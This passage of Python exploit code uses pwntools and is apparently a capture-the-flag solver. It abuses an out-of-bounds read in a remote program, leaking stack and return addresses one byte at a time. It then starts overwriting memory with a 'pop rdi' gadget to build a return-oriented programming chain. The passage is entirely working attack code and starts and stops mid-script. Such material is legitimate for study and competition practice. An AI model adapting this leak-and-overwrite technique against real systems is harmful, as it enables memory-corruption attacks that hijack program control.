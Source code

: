     r.sendline(str(offset_x+3))
    r.sendline(str(offset_y / 0x1000))
    r.sendline(str(0x1000))
    r.sendline(str(offset_y % 0x1000))
    stack += r.recv(1)
    r.sendline(str(offset_x+4))
    r.sendline(str(offset_y / 0x1000))
    r.sendline(str(0x1000))
    r.sendline(str(offset_y % 0x1000))
    stack += r.recv(1)
    r.sendline(str(offset_x+5))
    r.sendline(str(offset_y / 0x1000))
    r.sendline(str(0x1000))
    r.sendline(str(offset_y % 0x1000))
    stack += r.recv(1)
    stack += "\x00\x00"
    stack = u64(stack)
    log.info("Stack: " + hex(stack))

    ret_addr = stack - 0xf0 # maybe 0x128
    offset_y = (ret_addr - program_ptr) / 0x50
    offset_x = (ret_addr - program_ptr) % 0x50
    log.info("Offset_y : " + hex(offset_y))
    log.info("Offset_x : " + hex(offset_x))

    r.sendline(str(offset_x))
    r.sendline(str(offset_y / 0x1000))
    r.sendline(str(0x1000))
    r.sendline(str(offset_y % 0x1000))
    ret = r.recv(1)
    r.sendline(str(offset_x+1))
    r.sendline(str(offset_y / 0x1000))
    r.sendline(str(0x1000))
    r.sendline(str(offset_y % 0x1000))
    ret += r.recv(1)
    r.sendline(str(offset_x+2))
    r.sendline(str(offset_y / 0x1000))
    r.sendline(str(0x1000))
    r.sendline(str(offset_y % 0x1000))
    ret += r.recv(1)
    r.sendline(str(offset_x+3))
    r.sendline(str(offset_y / 0x1000))
    r.sendline(str(0x1000))
    r.sendline(str(offset_y % 0x1000))
    ret += r.recv(1)
    r.sendline(str(offset_x+4))
    r.sendline(str(offset_y / 0x1000))
    r.sendline(str(0x1000))
    r.sendline(str(offset_y % 0x1000))
    ret += r.recv(1)
    r.sendline(str(offset_x+5))
    r.sendline(str(offset_y / 0x1000))
    r.sendline(str(0x1000))
    r.sendline(str(offset_y % 0x1000))
    ret += r.recv(1)
    ret += "\x00\x00"
    ret = u64(ret)
    log.info("Ret: " + hex(ret))

    pop_rdi = p64(pop_rdi)
    r.sendline(str(ord(pop_rdi[0])))
    r.sendline(str(offset_x))
    r.sendline(str(offset_y / 0x1000))
    r.sendline(str(0x1000))
    r.sendline(str(offset_y % 0x1000))